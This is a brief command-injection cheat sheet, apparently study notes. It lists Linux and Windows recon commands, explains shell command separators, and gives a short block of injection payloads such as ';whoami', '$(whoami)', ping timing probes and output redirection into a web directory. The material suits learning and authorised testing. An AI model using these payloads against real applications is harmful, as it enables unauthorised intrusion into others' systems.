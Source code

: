 Some useful linux commands
- whoami
- ls
- cat
- echo
- uname -a
- ifconfig
- netstat -an
- ps -ef
- cat

 
Some useful windows commands
- whoami
- dir
- type
- echo
- ver
- ipconfig /all
- netstat -an
- tasklist

linux-windows commands seperates<br>
```
command1 ; command2 = Executes the second command after the first, regardless of success(Only Linux)
command1 & command2 = Runs both commands in parallel in the background.
command1 | command2 = Pipes the output of the first command to the second command.
command1 && command2 = Runs the second command only if the first command is successful.
command1 || command2 = Runs the second command only if the first command fails.

```


# Payloads
```
;whoami
$(whoami)
$(ping -c 10 127.0.0.1)
||ping+-c+10+127.0.0.1||
whoami+>+/var/www/images/example.txt
```
